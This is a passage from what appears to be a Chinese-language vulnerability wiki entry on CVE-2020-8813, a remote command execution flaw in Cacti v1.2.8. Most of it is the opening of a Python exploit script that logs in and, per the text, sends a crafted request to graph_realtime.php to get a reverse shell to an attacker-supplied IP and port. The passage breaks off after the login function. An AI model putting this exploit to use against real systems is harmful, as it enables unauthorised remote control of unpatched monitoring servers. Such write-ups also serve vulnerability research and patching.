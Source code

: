然后将其发送到应用程序以获取以下信息：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId36.png)

### 完整版的poc

为了自动化利用过程，我编写了一个python代码来利用此漏洞，利用此漏洞将处理登录过程以启用"来宾实时图"特权，然后将生成有效负载并将精心制作的请求发送到"
graph\_realtime.php"页面为了获得反向壳。

这是完整的利用代码：

    #!/usr/bin/python3
     
    # Exploit Title: Cacti v1.2.8 Remote Code Execution
    # Date: 03/02/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://cacti.net/
    # Version: v1.2.8
    # Tested on: CentOS 7.3 / PHP 7.1.33
     
    import requests
    import sys
    import warnings
    from bs4 import BeautifulSoup
    from urllib.parse import quote
     
    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
     
     
    if len(sys.argv) != 6:
        print("[~] Usage : ./Cacti-exploit.py url username password ip port")
        exit()
     
    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]
     
    def login(token):
        login_info = {
        "login_username": username,
        "login_password": password,
        "action": "login",
        "__csrf_magic": token
        }
        login_request = request.post(url+"/index.php", login_info)
        login_text = login_request.text
        if "Invalid User Name/Password Please Retype" in login_text:
            return False
        else:
            return True
     